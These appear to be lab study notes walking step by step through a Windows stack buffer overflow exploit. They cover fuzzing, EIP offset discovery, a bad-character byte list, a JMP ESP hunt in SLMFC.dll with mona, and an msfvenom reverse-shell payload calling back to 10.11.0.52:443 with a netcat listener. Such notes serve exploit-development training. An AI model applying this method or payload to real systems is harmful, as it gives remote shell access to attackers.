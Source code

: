 ## Windows Buffer Overflow

1) First we identify the IP, service and the port it is running and make edits in the fuzzer script

## GO TO OPTIONS > APPEARANCE > Change > Font to 10-12 in IMMUNITY * View - CPU doubleclick
2) We start fuzzing with Ollydbg/Immunity AS ADMINISTRATOR running while it is attached to the service

3) Depending on the no. of bytes which crash the service we see the EIP register pointing to AAAA

4) Next we create a pattern with `pattern_create.rb` of 2700 bytes and fuzz with it as our buffer.

`Usage : pattern_create.rb -l 2700`

5) Load the whole value into the buffer instead of the A's and re-run the fuzzer to crash the service. Re-attch and restart service first

6) Now we have a unique value on the EIP register let's use patter_offset to look for the location to understand EIP overwrite

Usage: `pattern_offset -q Value we found on EIP`

7) Output will be say 2606 that mean we need to overwrite the 4 characters after 2606 to overwrite EIP

8) Let's do this by pushing 2606 A's + 4 B's and 500 C's

9) We see that the EIP register is overwritten by 4 B's that is 42424242 in hex.

10) Now we must see if there is space for our shellcode which is normally 350-400 bytes in space

11) When we send 500 bytes as C's we see in the bottom right window we can double click and it shows relative to ESP the count and we can turn that value ex. 1ac to decimal which is 428 bytes.

12) Now we must find bad characters not allowed in payload. (Note `\x00` is always a badchar so its removed already )

```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```

13) Let's fire it up in the A * 2606 + B * 4 + badchars in the buffer and see where the debugger starts truncating values that is a badchar for us.

Right click ESP and "Follow in dump" REMEMBER TO VIEW HEX DUMP!!!!!!!!!!!

14) We find \x0a as a badchar we remove and re-fuzz

15) Everything else looks good so remember to remove \x00 is always a badchar from payload

16) Now we have \x00,\x0a,\x0d as badhcharacters. (\x0d is FOUND BY SEEING THE GAP in values 0C and then 0E even though everything else seems good. Always keep in mind!

17) Now we must redirect the execution flow aka find a reliable address to get into our EIP so it will have this instruction JMP ESP and it will point to our shellcode

18 ) For hunting such an address we look into mona.py (Remember to restart the service and run it in Immunity debugger to find the right place)

19) we enter !mona modules in the white bar below to see which address will have False under DEP and ASLR as we need to avoid those

20)  Once we have our candidate we click the 'm' memory mapping and find the same and must have R and E both

21) We then go to Executables by clicking 'e' and double clicking the SLMFC.dll and we see the code for execution of this dll.

22) To find this JMP ESP we can use nasm.rb inbuilt to generate the opcode so we can use mona to find it in our execution page for us.
```
Usage : nasm_shell.rb
nasm> jmp esp

00000000  FFE4              jmp esp
```
23) We now use `!mona find -s "\xff\xe4" -m slmfc.dll`

24) We get a bunch of JMP ESP addresses we pick one with no badcharacters!!!!

25) LEt's write that in our 'B' space but remember they must be written the other way around so here it is
0x5f4a358f and will be written as \x8f\x35\x4a\x5f in place of BBBB

26) Update our script and try to send and see if ESP is what we want it to be it redirects the flow to the CCCCCCCC....
FOR THIS WE PLACE A BREAKPOINT ON THE ADDRESS TO STOP THE PROGRAM AND NOTICE THE EIP WE ENTERED AND THEN CONTINUE IT
Right click on any address and click Go to > Expression and type in the address and boom Toggle the Breakpoint there.

Can pop calc first to see if needed else go for ROOT!

27) Then we see that our the crash should indicate the redirection to the CCCC's

28) Time to generate our payload with badchars specified and encode it
## NOTE : REMEMBER THE FORMAT of how to put badcharacters below no commas !!!!
`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.52 LPORT=443 -f py -b "\x00\x0a\x0d" -e x86/shikata_ga_nai `

29) Copy this shellcode after the B's and we must add the no op sleds just a few like 10 and then the shellcode so metasploit can decode this shellcode

30) Setup a netcat listener/multi handler and you're GOLDEN!

